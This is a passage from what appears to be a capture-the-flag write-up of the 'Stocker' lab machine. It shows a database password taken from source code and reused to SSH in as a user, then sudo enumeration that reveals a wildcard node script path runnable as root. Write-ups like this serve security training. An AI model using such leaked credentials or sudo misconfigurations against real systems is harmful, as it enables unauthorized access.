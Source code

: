 At the top of the page, there's a connection string to the MongoDB
instance that has the password "IHeardPassphrasesArePrettySecure".

### SSH

With that password, I should try logging in. It doesn't work for a dev
user, and in checking `/etc/passwd`, there isn't a dev user. The only
target user is angoose. That works:



    oxdf@hacky$ sshpass -p IHeardPassphrasesArePrettySecure ssh angoose@stocker.htb


    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    angoose@stocker:~$



And I can grab `user.txt`:



    angoose@stocker:~$ cat user.txt
    693f856f************************



## Shell as root

### Enumeration

#### sudo

The angoose user can run `node` with scripts from a given directory as
root:



    angoose@stocker:~$ sudo -l
    [sudo] password for angoose: 
    Matching Defaults entries for angoose on stocker:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User angoose may run the following commands on stocker:
        (ALL) /usr/bin/node /usr/local/scripts/*.js



#### Scripts

That directory has five scripts in it:


